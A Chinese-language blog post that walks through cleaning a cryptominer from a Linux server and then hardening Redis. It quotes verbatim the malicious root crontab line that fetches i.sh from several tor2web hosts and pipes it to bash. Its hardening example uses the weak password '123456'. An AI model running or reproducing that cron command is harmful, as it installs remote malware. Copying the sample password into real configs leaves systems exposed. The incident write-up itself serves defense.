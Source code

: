 ```yaml
---
title: 服务器中挖矿病毒
date: 2018-10-19 12:59:58
tags: [ redis,挖矿 ]
categories: [Linux-Basic ]
comments: true
copyright: true
---
```


## BETA服务器中毒案例

周末发现公司的BETA服务器占用CPU非常非常高.利用htop查看发现一个很奇怪的进程名:ZXGcBt

第一直觉就是服务器可能遭受了攻击,被植入了可疑程序.

---

### 解决步骤:

<!--more-->

1.试图找出该进程的父进程:

ps -ef | grep -i ZXGcBt

结果显示父进程为1.看来是一个独立的进程

2.通过该进程的PID找出该进程打开的文件,也就是程序的所在路径

```
[work@DWD-BETA ~]$ sudo lsof -p 27493
COMMAND   PID USER   FD   TYPE     DEVICE SIZE/OFF       NODE NAME
ZXGcBt  27493 root  cwd    DIR      253,1     4096          2 /
ZXGcBt  27493 root  rtd    DIR      253,1     4096          2 /
ZXGcBt  27493 root  txt    REG      253,1   198140     924524 /root/.x (deleted)
ZXGcBt  27493 root    0r  FIFO        0,8      0t0 1782547852 pipe
ZXGcBt  27493 root    1w   CHR        1,3      0t0       1028 /dev/null
ZXGcBt  27493 root    2w   CHR        1,3      0t0       1028 /dev/null
ZXGcBt  27493 root    3w   REG      253,1        6    2494781 /tmp/.X11-lock
ZXGcBt  27493 root    5u  IPv4 1788320222      0t0        TCP DWD-BETA:46392->37.59.44.93:http (ESTABLISHED)
```
可以看到该进程发起了一个http的链接.访问外部的http服务器

3.查看实际进程的符号链接

```
[work@DWD-BETA ~]$ sudo ls -l /proc/27493/exe
lrwxrwxrwx 1 root root 0 Oct 20 17:46 /proc/27493/exe -> /root/.x (deleted)
```

4.查看定时任务,看看有没有什么可疑的自动运行程序

```
[work@DWD-BETA ~]$ sudo crontab -l
49 * * * * (wget -qO- -U- https://ddgsdk6oou6znsdn.tor2web.io/i.sh||wget -qO- -U- http://ddgsdk6oou6znsdn.tor2web.me/i.sh||wget -qO- -U- https://ddgsdk6oou6znsdn.tor2web.xyz/i.sh||wget -qO- -U- https://ddgsdk6oou6znsdn.onion.ws/i.sh)|bash
```
发现个非常可疑的定时任务.该任务会定期从网上下载i.sh脚本.然后用bash执行

5.删除这个定时任务

```
[work@DWD-BETA ~]$ sudo crontab -e
crontab: installing new crontab
crontab: error renaming /var/spool/cron/#tmp.DWD-BETA.XXXXAzSEpy to /var/spool/cron/root
rename: Operation not permitted
crontab: edits left in /tmp/crontab.TIdire
[work@DWD-BETA ~]$ sudo crontab -l
49 * * * * (wget -qO- -U- https://ddgsdk6oou6znsdn.tor2web.io/i.sh||wget -qO- -U- http://ddgsdk6oou6znsdn.tor2web.me/i.sh||wget -qO- -U- https://ddgsdk6oou6znsdn.tor2web.xyz/i.sh||wget -qO- -U- https://ddgsdk6oou6znsdn.onion.ws/i.sh)|bash
```
在crontab -e的命令行界面无法删除.

6.尝试删除crontab文件.也提示没有权限
```
[root@DWD-BETA ~]# ls -l /var/spool/cron/root 
-rw------- 1 root root 239 Oct 20 00:01 /var/spool/cron/root
[root@DWD-BETA ~]# vim /var/spool/cron/root 
[root@DWD-BETA ~]# rm -rf /var/spool/cron/root
rm: cannot remove ‘/var/spool/cron/root’: Operation not permitted
```

7.通过lsattr发现该文件有隐藏的i属性
```
[root@DWD-BETA ~]# lsattr /var/spool/cron/root
----i--------e-- /var/spool/cron/root
```

8.去掉隐藏属性.删除该文件.
```
[root@DWD-BETA ~]# chattr -i /var/spool/cron/root
[root@DWD-BETA ~]# lsattr /var/spool/cron/root
-------------e-- /var/spool/cron/root
[root@DWD-BETA ~]# rm -rf /var/spool/cron/root
[root@DWD-BETA ~]# ls -l /var/spool/cron/root 
ls: cannot access /var/spool/cron/root: No such file or directory
```
> note:最好是进入crontab -e界面清空定时任务.而不是直接删除crontab文件

9.删除该进程.发现该进程已经消失..而且CPU使用率大幅下降,回到正常
```
ps -ef | grep -i zxgcbt
```

---

### 利用ansible检查其他所有服务器的定时任务,查看是否有可疑脚本

```
ansible allserver -m shell -a  'crontab -l'
ansible allserver -m shell -a  "su - work -c 'crontab -l'"
```


---

网上搜了一下我的案例,发现很多人和我有同样的经历,并且都是通过redis的漏洞取得权限.

### 加固redis的安全性

1.修改侦听地址.最好不要侦听外网接口
2.给redis设置密码
3.修改默认侦听端口

编辑redis.cnf配置文件

```
[work@DWD-BETA ~]$ sudo vim /etc/redis.conf
#修改侦听地址为127.0.0.1.只允许本机访问
bind 127.0.0.1

#设置一个密码.密码为123456
requirepass 123456
```
重启redis进程.

此时就需要先验证密码:

```
[work@DWD-BETA ~]$ redis-cli
127.0.0.1:6379> select 0
(error) NOAUTH Authentication required.
127.0.0.1:6379> auth 123456
OK
127.0.0.1:6379>
```